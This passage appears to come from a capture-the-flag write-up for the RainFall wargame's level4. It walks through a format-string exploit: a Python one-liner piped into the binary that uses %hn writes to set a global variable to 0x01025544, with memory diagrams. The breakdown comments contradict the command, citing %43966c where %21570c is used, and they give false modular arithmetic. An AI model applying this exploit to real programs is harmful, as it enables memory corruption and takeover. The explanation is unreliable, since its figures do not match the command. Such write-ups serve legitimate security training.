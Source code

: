 **Memory writes sequence:**
```
Step 1: Print 8 address bytes + 250 padding = 258 characters
        %12$hn writes 258 (0x0102) to address at position 12
        
Memory at 0x8049812: 0x0000 → 0x0102

Step 2: Print additional 21570 characters (total now 21828)
        %13$hn writes 21828 (0x5544) to address at position 13
        
Memory at 0x8049810: 0x0000 → 0x5544

Final memory state:
0x8049810: 0x5544  (low word)
0x8049812: 0x0102  (high word)
Combined:  0x01025544 = target value!
```

## Exploitation Implementation

### 15. Create the Exploit
```bash
level4@RainFall:~$ python -c "import struct; print(struct.pack('<I', 0x8049812) + struct.pack('<I', 0x8049810) + '%250c%12\$hn%21570c%13\$hn')" | ./level4

# Breakdown:
# struct.pack('<I', 0x8049812): Address for high word (4 bytes)
# struct.pack('<I', 0x8049810): Address for low word (4 bytes)  
# %250c: Print 250 chars (total: 8 + 250 = 258)
# %12$hn: Write 258 to address at position 12 (0x8049812)
# %43966c: Print 43966 more chars 
# %13$hn: Write (258 + 43966) % 65536 = 21828 to address at position 13
```

### 16. Memory State Visualization During Exploit

**Before printf() execution:**
```
Global variable m:
0x8049810: [00 00 00 00] = 0x00000000

Stack (relevant positions):
Position 12: 0x8049812 (high word address)
Position 13: 0x8049810 (low word address)
```

**After first %12$hn (258 characters printed):**
```
0x8049810: [00 00] [02 01] 
            ↑        ↑
         unchanged  written by %12$hn
                    (258 = 0x0102 in little-endian)
```
